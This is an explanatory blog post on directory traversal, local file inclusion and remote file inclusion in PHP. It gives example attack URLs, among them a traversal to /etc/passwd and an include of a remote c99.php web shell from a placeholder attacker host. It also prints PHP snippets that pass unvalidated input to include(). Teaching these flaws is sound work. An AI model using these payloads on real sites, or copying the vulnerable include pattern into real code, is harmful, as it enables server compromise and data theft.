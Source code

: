 ```yaml
---
title: Local file inclusion & remote file inclusion
categories: Vulnerabilities
date: 2020-02-09 
author: shiva G prasadh
published: true
---
```

 
Sometimes you might be confused when you think about the difference between Arbitrary file access, Local file inclusion and Remote file inclusion attacks. In a File Inclusion, Attackers run their own code on a vulnerable website. If the attacker can include their own malicious code on a web page, it is possible to "convince" a PHP script to include a remote file instead of a presumably trusted file from the local file system. Lets discuss about the differences.  
 
### [](#header-3) Directory Traversal Attack
 
Directory traversal attacks that allowed an attacker to ‘traverse’ outside an intended directory to access a file or directory that was not intended.
eg. http://vulnerableWebSite.com/apps/index.php?file=../../../../../../etc/passwd
Making this request would direct the script to traverse outside the web server document root (DOCROOT) to access the system password file (/etc/passwd).

* * * 
### [](#header-3) Arbitrary File Access
 
If the application is running with full privileges and could access any file on the system by traversal, and it only allows an attacker to read the contents of the file, not write to it or execute it as a script, It qualified to “traversal arbitrary file access”.
eg. http://vulnerableWebSite.com/apps/index.php?file=../../../../tmp/shell.php
In this traversal arbitrary file access issue, the contents of shell.php will be displayed, not executed.

* * *
 
### [](#header-3) Local File Inclusion (LFI) attack
 
It often exhibit the same trait as directory traversal attacks, the attack typically involves a relative (e.g. ../../) or absolute path (e.g. &file=/path/to/file) to call a specific file on the system. The difference is in how the application handles the request. Instead of displaying the contents of the file like above, it will include the file as if it is an executable script. This means that arbitrary code, but limited to what is already on the file system, will be executed with the same privileges as the web application and/or web server.  
Basically, the difference is that with a file inclusion vulnerability, the resource is loaded and executed in the context of the current application. A directory traversal vulnerability on the other hand, only gives you the ability to read the resource.

```
	<?php
	$template =$_GET['template'];
	include("/".$template .".php");			
	?>
```

From Code, Attacker can assign template to be "../../../../etc/passwd%00". It causes the attacker to read a content from /etc/passwd.

```
[URL] http://vulnerableWebSite.com/index.php?template=../../../../etc/passwd%00
```

* * *
 
### [](#header-3) Remote File Inclusion (RFI) attack
 
It allows an attacker to include a remotely hosted file, usually through a script on the web server. The vulnerability occurs due to the use of user-supplied input without proper validation.  
it can also lead to:  
 
Code execution on the web server
Code execution on the client-side such as JavaScript which can lead to other attacks such as cross site scripting (XSS) 
Denial of Service (DoS)  
Sensitive Information Disclosure
 
Since RFI occurs when paths passed to "include" statements are not properly sanitized, in a blackbox testing approach, we should look for scripts which take filenames as parameters. Consider the following PHP example:  
```
	<?php
	$incfile = $_REQUEST["file"];
	include($incfile.".php");
	?>
```
In this example the path is extracted from the HTTP request and no input validation is done.
```
[URL] http://vulnerableWebSite.com/vulnPage.php?file=http://attackerSite.com/c99.php
```

File Inclusion (RFI/LFI) mostly occurs from some functions that developers	do not properly check user supplied data.
	
Example PHP function:

	include()
	include_once()
	require()
	require_once()
	fopen()

